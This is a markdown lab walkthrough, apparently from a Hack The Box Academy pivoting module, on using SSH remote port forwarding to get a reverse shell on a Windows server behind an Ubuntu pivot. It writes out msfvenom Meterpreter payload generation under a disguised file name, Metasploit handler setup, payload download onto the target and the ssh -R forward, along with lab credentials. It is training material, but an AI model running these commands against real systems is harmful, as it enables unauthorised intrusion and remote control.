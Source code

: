 
# Remote/Reverse Port Forwarding with SSH

Scenario: A victim Windows server sits behind a Ubuntu pivot host, 10.129.15.50 and 172.16.5.129. Your attack host, 10.10.15.5 uses the Ubuntu machine to pivot to the Windows server.
The Window host has a limited outgoing connection to 172.16.5.0/23 because the Windows server does not have any direct connection with the attack host network. The attack host can gain access via the Ubuntu server, using it as the pivot point, since it can connect to both the attack host and windows server. To gain a reverse shell on the Windows server you can:

1) Create a Meterpreter HTTPS payload via msfvenom using the Ubuntu server's IP address as the callback and then...
2) ..use port 8080 on the Ubuntu server to forward all reverse packets to your attackers host on port 8000, where the Metasploit listener is running

### Creating Windows Payload
```python
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Configure + Starting the multi/handler
```python
msf6 > use exploit/multi/handler
```

### Transferring Payload to Pivot Host
```python
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

### Starting Python3 Webserver on Pivot Host
```python
python3 -m http.server 8123
```

### Downloading Payload on Windows Target
```PowerShell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### SSH Remote Port Forwarding
```python
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

>[!tip]
> -vN tells SSH to use verbose mode and not prompt for the login shell
> -R asks the Ubuntu server to listen on targetIPAddress:8080 and forward
> all incoming connections on port 8080 to your msfconsole listener on 0.0.0.0:8000

# Questions

Username
```python
ubuntu
```

Password
```
HTB_@cademy_stdnt!
```

IP
```python
10.129.1.10
```

SSH
```python
ssh ubuntu@10.129.1.10
```
### 1) Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target?

Answer:
```python
172.16.5.129
```

First I need to generate the msfvenom payload for Windows
```go
msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.129.1.10 -f exe -o backupscript.exe LPORT=8080
```

Now I must configure the multi/handler in metasploit
```go
use exploit/multi/handler
```

```go
set payload windows/x64/meterpreter/reverse_https
```

```go
set lhost 0.0.0.0
```

```go
set lport 8000
```

```go
run
```

Copy payload to Ubuntu server
```go
scp backupscript.exe ubuntu@10.129.1.10:~/
```

In order for the Windows host to download the file, the Ubuntu server must host it since that's the only route the Windows machine has access to too
```go
python3 -m http.server 8123
```

Pivot to Windows host

Username
```go
victor
```

Password
```go
pass@123
```

IP
```go
172.16.5.19
```

Proxychains
```go
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

After remoting into the Windows machine, download the `backupscript.exe`. Remember to run Powershell as Administrator
```python
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\\backupscript.exe"
```

From your attacker machine, perform SSH remote port forward using the creds of the Ubuntu box
```python
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN
```

Execute the `backupscript.exe` on the Windows target and the connection to your attacker machine will be established.
